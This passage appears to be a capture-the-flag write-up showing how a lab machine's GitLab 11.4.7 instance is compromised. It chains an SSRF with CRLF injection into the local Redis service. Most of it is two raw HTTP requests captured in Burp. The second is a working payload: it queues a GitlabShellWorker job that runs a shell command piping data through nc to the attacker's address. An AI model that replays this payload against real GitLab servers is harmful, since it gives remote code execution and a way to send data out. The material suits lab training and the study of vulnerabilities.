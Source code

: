 Among the various PoCs, the [analysis](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) conducted by **liveoverflow** was definitely one of the best choice to follow to be able to penetrate this machine.

To summarize the vulnerability, arbitrary code execution can be achieved **importing a new git project** from the **redis** localhost port abusing a **SSRF** vulnerability in conjunction with the **CRLF injection**. This combination of vulnerabilities allowed to **execute arbitrary code inside redis** and so obtain a reverse shell.

First, a test project was created and the corresponding *import* request was intercepted using burpsuite:
![Pasted image 20210429225050.png]({{page.screenshots}}Pasted image 20210429225050.png)
```http
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.220:5080/projects/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 317
Origin: http://10.10.10.220:5080
Connection: close
Cookie: _gitlab_session=09091cb83a47305f01ddec7c77a45d15; sidebar_collapsed=true; event_filter=all
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=aftxcmnuS8Omyy8hNlcAIh1FS4bve7Ynayo4MGngN2PDRqLqEX40n3qKOSG9ZTLRNR9rxOakhyzSTKGlyqrl6Q%3D%3D&project%5Bimport_url%5D=test&project%5Bci_cd_only%5D=false&project%5Bname%5D=test&project%5Bnamespace_id%5D=3&project%5Bpath%5D=test&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

After that, the request was modified to contain the malicious payload, which in this case send to the attacker machine the string "pippo". To avoid problems with special characters the url-encode of the whole payload was executed using the burpsuite plugin *hackvector*.
```http
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.220:5080/projects/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 772
Origin: http://10.10.10.220:5080
Connection: close
Cookie: _gitlab_session=09091cb83a47305f01ddec7c77a45d15; sidebar_collapsed=true; event_filter=all
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=aftxcmnuS8Omyy8hNlcAIh1FS4bve7Ynayo4MGngN2PDRqLqEX40n3qKOSG9ZTLRNR9rxOakhyzSTKGlyqrl6Q%3D%3D&project%5Bimport_url%5D=<@urlencode_all>git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|echo pippo | nc 10.10.14.24 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git <@/urlencode_all>&project%5Bci_cd_only%5D=false&project%5Bname%5D=test&project%5Bnamespace_id%5D=3&project%5Bpath%5D=test&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```